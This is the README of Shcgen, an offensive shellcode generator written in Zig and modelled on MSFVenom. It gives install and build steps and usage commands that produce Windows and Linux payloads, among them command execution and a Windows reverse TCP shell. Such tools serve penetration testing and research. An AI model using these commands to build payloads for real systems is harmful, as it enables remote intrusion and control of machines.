 # Shcgen

A shellcode generator written in Zig, inspired by MSFVenom.  

## Install

Download from [releases](/releases) page and extract zip.  
We can use `shcgen` right away.

## Build

We can also build and use it from source.  
Assuming that you've already installed `zig` in your system.

```sh
git clone https://github.com/hideckies/shcgen
cd shcgen
zig build --release=small
./zig-out/bin/shcgen --help
```

## Prerequisites

Before using `shcgen`, we need to have the following installed:

- `nasm`

To install them, run the following:

```sh
# Debian/Ubuntu
sudo apt install nasm

# CentOS/Fedora
sudo yum install nasm

# macOS
brew install nasm
```

For Windows, download from [NASM official release page](https://www.nasm.us/pub/nasm/releasebuilds/?C=M;O=D).

## How To Use

### Generate Windows Payloads

```sh
# Example 1. Execute arbitrary command
shcgen -p windows/x64/exec --cmd calc -f raw -o /tmp/shellcode.bin

# Example 2. Reverse Shell
shcgen -p windows/x64/shell_reverse_tcp --lhost 127.0.0.1 --lport 4444 -f raw -o /tmp/shellcode.bin
```

### Generate Linux Payloads

```sh
# Example 1. Execute arbitrary command
shcgen -p linux/x64/exec --cmd /bin/sh -f hex
```

See [examples](/examples/) for more details.


